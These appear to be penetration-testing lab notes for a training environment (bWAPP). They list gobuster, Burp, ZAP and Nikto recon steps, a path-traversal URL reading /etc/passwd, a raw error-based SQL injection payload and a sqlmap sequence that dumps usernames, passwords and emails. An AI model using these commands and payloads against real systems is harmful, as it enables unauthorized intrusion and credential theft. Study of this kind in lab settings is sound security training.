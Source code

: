     **Web & HTTP Protocols**
    
    1. Request methods
    2. Status codes
    
    **Directory Enumeration - [Go buster & Burp suite]**
    
    1. `sudo apt update && sudo apt install -y gobuster`
        
    2. `gobuster dir -u <http://192.21.23.23> -w /usr/share/wordlists/dirb/common.txt`
        
    3. `gobuster dir -url <http://192.21.23.23> -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r`
        
    4. `gobuster dir -url <http://192.21.23.23/data> -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r`
        
    5. Turn on burp
        
    6. capture the GET / request and send to Intruder
        
    7. User burp custom wordlists, or select for your wish
        
    8. start attack
        
    
    **Scanning web application - [ZAP & Nikto]**
    
    1. Zap manual and automatic scan
    2. Nikto scan- `nikto -h [<http://192.157.60.3>](<http://192.157.60.3/>) -o niktoscan-192.157.60.3.txt`
    3. `nikto -h <http://192.157.60.3/index.php?page=arbitrary-file-inclusion.php> -Tuning 5 -o nikto.html -Format htm`
    4. `firefox nikto.html`
    5. [`http://192.157.60.3/index.php/index.php?page=../../../../../../../../../../etc/passwd`](http://192.157.60.3/index.php/index.php?page=../../../../../../../../../../etc/passwd)
    
    **Passive Crawling with Burp suite**
    
    1. Turn on burp
    2. Check HTTP history and crawl endpoints
    3. Add target and scan it
    
    **SQL Injection- sqlmap**
    
    1. [http://192.42.186.3/sqli_1.php?title=hacking&action=search](http://192.42.186.3/sqli_1.php?title=hacking&action=search)
    2. `sqlmap -u "<http://192.42.186.3/sqli_1.php?title=hacking&action=search>" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title`
    3. hacking' AND (SELECT 1819 FROM(SELECT COUNT(*),CONCAT(0x716a767171,(SELECT (ELT(1819=1819,1))),0x7171707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bLrY'='bLrY&action=search
    4. `sqlmap -u "<http://192.42.186.3/sqli_1.php?title=hacking&action=search>" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title --dbs`
    5. `sqlmap -u "<http://192.42.186.3/sqli_1.php?title=hacking&action=search>" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP --tables`
    6. `sqlmap -u "<http://192.42.186.3/sqli_1.php?title=hacking&action=search>" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users --columns`
    7. `sqlmap -u "<http://192.42.186.3/sqli_1.php?title=hacking&action=search>" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump`
    8. `sqlmap -r request -p title`
    